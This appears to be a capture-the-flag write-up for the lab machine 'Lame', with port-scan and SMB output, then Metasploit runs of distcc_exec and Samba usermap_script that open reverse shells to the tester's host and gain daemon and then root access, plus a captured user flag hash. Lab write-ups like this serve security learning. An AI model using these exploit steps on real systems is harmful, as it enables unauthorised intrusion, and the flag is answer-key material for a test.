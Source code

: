 # Lame

## SYN Scan
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

## SMB Shares
```
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	   NO ACCESS	Printer Drivers
	tmp                                               	   READ, WRITE	oh noes!
	opt                                               	   NO ACCESS	
	IPC$                                              	   NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	   NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

### tmp
```
drw-rw-rw-          0  Thu Mar 25 15:25:33 2021 .
drw-rw-rw-          0  Sat Oct 31 09:33:57 2020 ..
-rw-rw-rw-          0  Thu Mar 25 15:10:22 2021 5569.jsvc_up
drw-rw-rw-          0  Thu Mar 25 15:09:17 2021 .ICE-unix
drw-rw-rw-          0  Thu Mar 25 15:09:38 2021 vmware-root
drw-rw-rw-          0  Thu Mar 25 15:09:44 2021 .X11-unix
-rw-rw-rw-         11  Thu Mar 25 15:09:44 2021 .X0-lock
-rw-rw-rw-       1600  Thu Mar 25 15:09:14 2021 vgauthsvclog.txt.0
```

## Reverse SHELL
`distcc` is intended to be quite secure when used according to the documentation, but it must be properly configured.

**Anyone who can connect to the distcc server port can run arbitrary commands on that machine as the distccd user.**

`unix/misc/distcc_exec`

```
msf6 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:39692) at 2021-03-25 15:42:56 +0300

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
``` 

## The User Flag
```
ls -l /home/makis/
total 4
-rw-r--r-- 1 makis makis 33 Mar 25 08:09 user.txt
cat /home/makis/user.txt
30bad5eb86ed98fc8278ccec36b0944e
```

## Privilege Escalation via Vulnerable Samba Version
`samba 3.0.20` is vulnerable.

`multi/samba/usermap_script`
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:55794) at 2021-03-25 16:34:16 +0300

id
uid=0(root) gid=0(root)
```
